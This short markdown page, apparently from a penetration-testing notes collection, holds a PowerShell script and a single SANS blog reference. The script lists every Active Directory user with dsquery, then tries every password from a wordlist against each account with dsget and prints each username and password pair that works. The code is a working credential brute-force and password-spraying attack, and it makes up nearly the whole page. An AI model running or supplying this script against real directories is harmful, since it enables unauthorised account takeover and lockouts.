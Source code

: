 # Scripting

## PowerShell

```powershell
dsquery.exe user -limit 0 > users.txt
foreach ($FDN in Get-Content .\users.txt) {
    $results = dsget.exe user $FDN -samid
    $samid = $results[1].replace(" ", "")
    Write-Output $samid
    foreach ($password in Get-Content .\password.txt) {
        $password = $password.replace(" ", "")
        dsget.exe user $FDN -u $samid -p $password > $null
        if ($?) {
            Write-Output "Account: $samid\tPassword $password"
        }
    }
}
```

---
## References

### SANS

- [SANS: Usernames Matter More than Passwords](https://web.archive.org/web/20111008220143/https://it-audit.sans.org/blog/2011/09/21/usernames-matter-more-than-passwords)